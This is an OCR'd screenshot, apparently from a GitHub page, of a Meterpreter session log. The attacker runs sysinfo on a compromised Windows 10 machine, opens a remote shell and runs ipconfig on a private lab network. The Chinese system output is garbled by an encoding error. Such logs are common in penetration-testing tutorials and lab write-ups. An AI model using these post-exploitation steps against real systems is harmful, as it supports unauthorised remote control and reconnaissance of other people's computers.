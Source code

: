 ```
meterpreter > sysinfo
 Computer        : DESKTOP-4QBCKUQ
 OS              : Windows 10 (10.0 Build 18363).
 Architecture    : x64
 System Language : zh_CN
 Domain          : WORKGROUP
 Logged On Users : 2
 Meterpreter     : x64/windows
 meterpreter > shell
 Process 4636 created.
 Channel 1 created.
 Microsoft Windows [�汾 10.0.18363.592]
 (c) 2019 Microsoft Corporation����������Ȩ����
 
 C:\Windows\system32>ipconfig
 ipconfig
 
 Windows IP ����
 
 
 ���������� Ethernet0:
 
    �����ض��� DNS ��׺ . . . . . . . : localdomain
    �������� IPv6 ��. . . . . . . . : fe80::19e9:645f:150d:860f%4
    IPv4 �� . . . . . . . . . . . . : 192.168.72.141
    ��������  . . . . . . . . . . . . : 255.255.255.0
    Ĭ������. . . . . . . . . . . . . : 192.168.72.2
 
 ���������� ������������:
 
    ý��״  . . . . . . . . . . . . : ý���ѶϿ�����
    �����ض��� DNS ��׺ . . . . . . . :
```